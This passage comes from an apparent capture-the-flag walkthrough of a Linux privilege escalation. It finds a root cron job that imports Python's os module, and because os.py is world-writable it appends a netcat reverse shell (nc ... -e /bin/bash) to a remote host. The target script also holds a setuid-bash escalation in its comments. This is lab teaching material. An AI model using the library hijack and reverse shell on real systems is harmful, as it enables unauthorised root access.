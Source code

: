     $ id -a                                                                                                                                               
    uid=1000(giuseppe) gid=1000(giuseppe) groups=1000(giuseppe),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)  

We can now read the first flag.

    $ cat /home/giuseppe/user.txt
                                                                                 
    94RwRK2XuVdjThtn6GK3kGAXe 

Let's upload ***pspy64*** to the remote machine and see if there are any cron tabs running.

    2022/06/09 01:52:01 CMD: UID=0    PID=620    | /usr/sbin/CRON -f 
    2022/06/09 01:52:01 CMD: UID=0    PID=621    | /usr/sbin/CRON -f 
    2022/06/09 01:52:01 CMD: UID=0    PID=622    | /bin/sh -c /opt/important.py 

The file ***/opt/important.py*** is run being by root as part of the cron jobs.

    $ cat /opt/important.py

    #!/usr/bin/python

    import os

    #a = "nananananananananananananananananannanana"
    #b = "lahlahlahlahlahlahlahlahlahlahlahlhalhall"
    #c = "PythonLoverPythonLoverPythonLoverPythonLo"
    #d = "FuckMyVMFuckMyVMFuckMyVMFuckMyVMFuckMyVMF"
    #e = "nahnahnahlalalanahnahnahnahanhahnahhaahaa"
    #f = "rootrootrootrootrootrootrootrootrootrootr"


    #command1 = "/usr/bin/chmod +s /bin/bash"
    #command2 = "/bin/bash -p"
    #command3 = "/usr/bin/whoami"


    #os.system(command1)
    #os.system(command2)
    #os.system(command3)

This file is using the ***os*** python module. If we can edit the module we can make the cron tab run our desired commands.

    $ ls -l /usr/lib/python2.7/os.py
    -rwxrwxrwt 1 root root 25911 Jun  8 20:50 /usr/lib/python2.7/os.py


Going to ***/usr/lib/python2.7*** we can see that ***os.py*** file is writable by everyone, so let's add some code to it, so when the cron tab runs the script ***/opt/important.py*** it also runs our injected code.

    Remote Machine:

    $ echo 'import os' >> /usr/lib/python2.7/os.py
    $ echo 'os.system("nc 10.0.0.27 5555 -e /bin/bash")' >> /usr/lib/python2.7/os.py

    Local Machine:
    # nc -lnvp 5555
